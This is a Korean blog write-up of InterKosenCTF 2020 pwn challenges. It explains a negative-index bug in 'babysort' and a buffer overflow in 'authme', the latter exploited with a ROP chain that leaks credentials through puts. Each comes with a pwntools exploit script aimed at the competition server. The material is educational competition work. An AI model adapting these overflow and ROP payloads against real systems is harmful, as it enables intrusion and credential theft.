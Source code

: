 ```yaml
---
layout: post
title: InterKosenCTF 2020 pwn write-up
categories: ctf-write-up
tags: [ctf]
---
```


InterKosenCTF 2020 CTF를 참여했다. 꽤 재미있었고 pwn 카테고리의 문제 및 개인적으로 재미있었던 misc 문제의 write up을 작성한다.


---


## babysort (105 pts, 49 solves)

SortExperiment 구조체의 elm 배열에 값을 5번 입력받고, cmp 배열에 저장된 함수를 호출하여 정렬을 하고 종료하는 프로그램이다.



정렬은 오름차순과 내림차순이 있는데, 이때 음수 인덱스를 이용하면 elm 배열의 값에 접근할 수 있다. 이를 통해 win 함수를 호출시킬 수 있다.

```python
from pwn import *

p = remote('pwn.kosenctf.com', 9001)
e = ELF('./chall')

win = e.sym['win']

for i in range(5):
    p.sendlineafter('= ', str(win))

p.sendlineafter(': ', '-1')
p.interactive()
```



---



## authme (300 pts, 20 solves)

fgets에서 bof가 발생한다. 그 뒤 ID와 PW 값을 비교한 후 틀리면 exit() 함수를 이용하여 프로그램을 종료한다.



해결 방법은 첫 번째 fgets 함수에서 `bof`를 발생시키고, **두 번째 fgets에서 NULL을 반환 시켜서 exit()가 아닌 return**을 하도록 만드는 것이다. fgets의 입력을 받을 때 pwntools의 `shutdown` 함수를 호출하면 NULL을 반환하게 되고 이를 통해 ID와 PW를 leak할 수 있다. (thx to myria)

```python
from pwn import *

p = remote("pwn.kosenctf.com", 9002)
e = ELF('./chall')

pr = 0x400b03
puts = e.plt['puts']
username = e.sym['username']
password = e.sym['password']

p.send("A" * 0x28 + p64(pr) + p64(username) + p64(puts)[:7])
p.shutdown()
p.recvuntil('Password: ')
print p.recvline()

p = remote("pwn.kosenctf.com", 9002)
p.send("A" * 0x28 + p64(pr) + p64(password) + p64(puts)[:7])
```